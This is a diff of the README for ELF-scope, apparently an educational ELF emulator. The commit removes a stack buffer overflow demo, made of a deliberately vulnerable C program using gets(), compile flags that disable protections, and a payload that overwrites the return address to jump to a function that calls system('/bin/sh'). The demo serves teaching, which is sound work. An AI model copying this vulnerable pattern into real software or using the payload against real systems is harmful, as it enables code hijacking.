

Before and after one commit to optimus0brime/ELF-scope, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -88,45 +57,6 @@ python run.py
 Open `http://localhost:5000`. Drop any x86-64 ELF binary onto the upload area.
 
 A test binary is included at `backend/tests/binaries/test_add.elf` — a static binary that adds 10 + 32 and returns 42, good for verifying the setup.
-
----
-
-## Stack Buffer Overflow Demo
-
-Compile a vulnerable binary:
-
-```c
-// bof.c
-#include <stdio.h>
-char *gets(char *s);
-
-void secret() {
-    printf("[!] secret() reached\n");
-    system("/bin/sh");
-}
-void vuln() {
-    char buf[64];
-    printf("Input: ");
-    gets(buf);
-}
-int main() {
-    printf("secret() @ %p\n", (void *)secret);
-    vuln();
-    return 0;
-}
-```
-
-```bash
-gcc -O0 -no-pie -fno-stack-protector bof.c -o bof.elf
-```
-
-Load `bof.elf` in ELFscope. The terminal prints `secret() @ 0x401142`. Type your payload in the stdin panel using the address shown:
-
-```
-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x42\x11\x40\x00\x00\x00\x00\x00
-```
-
-The return address overwrites. When `vuln()` returns, RIP jumps to `secret()`. The terminal shows `[system("/bin/sh") called — stubbed]`. The halt banner shows the hijacked RIP. The entire overflow is visible in the register panel, step by step.
 
 ---
 
@@ -228,21 +158,6 @@ elfscope/
 
 ---
 
-## Roadmap
-
-- [ ] Taint tracking — mark attacker-controlled bytes and propagate through execution
-- [ ] Stack layout visualizer — frame boundaries, canary, saved RBP, return address rendered as a spatial diagram
-- [ ] ROP gadget scanner and chain builder
-- [ ] Syscall trace log (strace-style timeline)
-- [ ] Memory snapshot diff — compare any two execution points byte-by-byte
-- [ ] Code coverage heatmap over disassembly
-- [ ] Shadow stack — detect return address overwrites the moment they happen
-- [ ] Cache + pipeline simulation (COA teaching mode)
-- [ ] ASLR simulation with infoleak workflow
-- [ ] Heap visualization (chunk headers, free list, bin state)
-
----
-
 ## Use Cases
 
 **Exploit development** — craft a payload in the stdin panel with hex escapes, step through the overflow, verify RIP control, iterate without restarting your environment.
````
Also changed, not shown: other parts of README.md (+1 -32 lines).
